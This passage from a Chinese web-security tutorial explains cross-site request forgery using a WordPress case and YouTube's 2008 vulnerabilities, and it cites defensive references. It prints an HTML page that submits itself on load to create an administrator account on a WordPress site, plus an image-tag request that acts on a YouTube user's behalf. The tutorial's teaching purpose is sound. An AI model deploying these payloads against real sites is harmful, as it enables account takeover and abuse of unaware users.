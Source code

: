 *Change administrator's email

*Change Wordpress Address

*Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，添加某个具有管理员权限的用户，实现的码如下：

```html
<html> <body onload="javascript:document.forms[0].submit()"> <H2>CSRF Exploit to add Administrator</H2> <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php"> <input type="hidden" name="action" value="createuser"/> <input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/> <input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/> <input type="hidden" name="user_login" value="admin2"/> <input type="hidden" name="email" value="admin2@admin.com"/> <input type="hidden" name="first_name" value="admin2@admin.com"/> <input type="hidden" name="last_name" value=""/> <input type="hidden" name="url" value=""/> <input type="hidden" name="pass1" value="password"/> <input type="hidden" name="pass2" value="password"/> <input type="hidden" name="role" value="administrator"/> <input type="hidden" name="createuser" value="Add+New+User+"/> </form> </body> </html> 
```

### **YouTube的CSRF漏洞**

2008年，有安全研究人员发现，YouTube上几乎所有用户可以操作的动作都存在CSRF漏洞。如果攻击者已经将视频添加到用户的“Favorites”，那么他就能将他自己添加到用户的“Friend”或者“Family”列表，以用户的身份发送任意的消息，将视频标记为不宜的，自动通过用户的联系人来共享一个视频。例如，要把视频添加到用户的“Favorites”，攻击者只需在任何站点上嵌入如下所示的IMG标签：

```html
<img src="http://youtube.com/watch_ajax?action_add_favorite_playlist=1&video_id=[VIDEO ID]&playlist_id=&add_to_favorite=1&show=1&button=AddvideoasFavorite"/>
```

攻击者也许已经利用了该漏洞来提高视频的流行度。例如，将一个视频添加到足够多用户的“Favorites”，YouTube就会把该视频作为“Top Favorites”来显示。除提高一个视频的流行度之外，攻击者还可以导致用户在毫不知情的情况下将一个视频标记为“不宜的”，从而导致YouTube删除该视频。

这些攻击还可能已被用于侵犯用户隐私。YouTube允许用户只让朋友或亲属观看某些视频。这些攻击会导致攻击者将其添加为一个用户的“Friend”或“Family”列表，这样他们就能够访问所有原本只限于好友和亲属表中的用户观看的私人的视频。

攻击者还可以通过用户的所有联系人名单（“Friends”、“Family”等等）来共享一个视频，“共享”就意味着发送一个视频的链接给他们，当然还可以选择附加消息。这条消息中的链接已经并不是真正意义上的视频链接，而是一个具有攻击性的网站链接，用户很有可能会点击这个链接，这便使得该种攻击能够进行病毒式的传播。

## 参考文献

*Mozilla wiki.[Security-Origin](https://wiki.mozilla.org/Security/Origin)

*OWASP.[Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet).

*Gmail Security Hijack Case.[Google-Gmail-Security-Hijack](https://www.davidairey.com/google-gmail-security-hijack/).

*Netsparker Blog.[Same-Site-Cookie-Attribute-Prevent-Cross-site-Request-Forgery](https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/)

*MDN.[Same-origin_policy#IE_Exceptions](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy#IE_Exceptions)

## 下期预告

前端安全系列文章将对XSS、CSRF、网络劫持、Hybrid安全等安全议题展开论述。下期我们要讨论的是网络劫持，敬请期待。

***本文作者：美团技术团队-刘烨，转载请注明来自FreeBuf.COM**